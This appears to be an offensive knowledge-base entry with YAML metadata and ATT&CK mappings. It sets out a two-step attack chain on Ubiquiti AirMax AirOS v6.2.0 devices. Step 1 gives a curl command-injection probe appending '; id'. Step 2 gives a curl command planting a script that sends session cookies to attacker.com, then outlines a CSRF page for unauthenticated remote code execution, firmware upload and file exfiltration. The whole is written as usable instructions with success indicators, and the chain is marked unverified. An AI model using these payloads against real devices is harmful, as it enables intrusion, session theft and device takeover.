

---
tags:
  - rce
  - command-injection
  - xss
  - csrf
  - ubnt-airmax
  - iot
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-command-injection-test]]'
  - '[[commands/inject-xss-payload]]'
platforms:
  - Embedded
  - IoT
  - Firmware
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-Endpoints-for-Command-Injection-in-AirOS]]'
  - '[[procedures/Exploit-RCE-using-XSS-and-CSRF-Bypass-in-AirOS]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
description: >-
  Multi-stage attack exploiting command injection in AirMax AirOS v6.2.0
  endpoints, combined with XSS and CSRF to achieve remote code execution,
  configuration modification, and data exfiltration on TI, XW, and XM boards.
skill_level: intermediate
impact_level: high
id: d7848a57-991a-44b7-9427-338eebb6652b
created_at: '2025-12-14T17:27:35.828Z'
updated_at: '2025-12-14T17:27:35.828Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
---
# RCE in AirOS via Command Injection with XSS and CSRF Bypass

Multi-stage attack chain demonstrating a complete attack workflow on Ubiquiti AirMax AirOS v6.2.0 devices, leading to remote code execution through command injection, enhanced by XSS for automation and CSRF for bypassing user interaction.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)
- [[tools/curl]] or similar HTTP client for testing payloads

### Target Environment

- AirMax AirOS v6.2.0 or prior on TI, XW, XM boards
- Web interface accessible over HTTP/HTTPS (default port 80/443)
- Network access to the device's management interface

### Initial Access Requirements

- No credentials initially required due to CSRF bypass, but authenticated session enhances exploitation
- Attacker positioned in the same network or with remote access to the device
- No prior access needed, but knowledge of device endpoints helpful

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoints
procedure: [[procedures/Identify-Vulnerable-Endpoints-for-Command-Injection-in-AirOS]]

**Objective**: Discover endpoints in the AirOS web interface that accept input strings vulnerable to command injection by testing for filter bypasses.

**Instructions**: Access the AirOS web interface and test input fields in configuration or diagnostic endpoints. Use [[commands/curl-command-injection-test]] to send crafted payloads that evade filters, such as appending command separators like `; id` after valid input.

```bash
curl -X POST 'http://target-device-ip/cgi-bin/webproc' -d 'param1=value; id' -H 'Content-Type: application/x-www-form-urlencoded'
```

Monitor responses for signs of command execution, like unexpected output in error messages.

**Expected Output**: Response containing output from injected command, e.g., UID/GID from `id` command.

**Success Indicators**:
- Anomalous output in response indicating command execution
- No filter rejection for crafted strings

### Step 2: Exploit RCE with Bypass
procedure: [[procedures/Exploit-RCE-using-XSS-and-CSRF-Bypass-in-AirOS]]

**Objective**: Leverage XSS to automate exploitation and CSRF to bypass authentication, enabling RCE for configuration changes, firmware upload, and file exfiltration.

**Instructions**: First, inject an XSS payload in a vulnerable endpoint to steal session tokens or automate requests. Use [[commands/inject-xss-payload]] via a crafted form submission.

```bash
curl -X POST 'http://target-device-ip/vulnerable-endpoint' -d '<script>fetch("http://attacker.com/steal?cookie="+document.cookie)</script>' -H 'Content-Type: text/plain'
```

Then, craft a CSRF PoC HTML page to trigger the command injection without user interaction, combining with the stolen token for authenticated RCE, such as uploading firmware or exfiltrating files.

**Expected Output**: Successful command execution, e.g., modified config or data sent to attacker server.

**Success Indicators**:
- Session token exfiltrated via XSS
- Arbitrary commands executed without direct authentication
- Device configuration altered or files accessed

## Attack Chain Summary

### Key Achievements

1. Bypassed input filters to achieve command injection in AirOS endpoints
2. Used XSS and CSRF to automate and unauthenticated exploitation leading to RCE
3. Enabled full device compromise including firmware upload and data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Unix Shell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
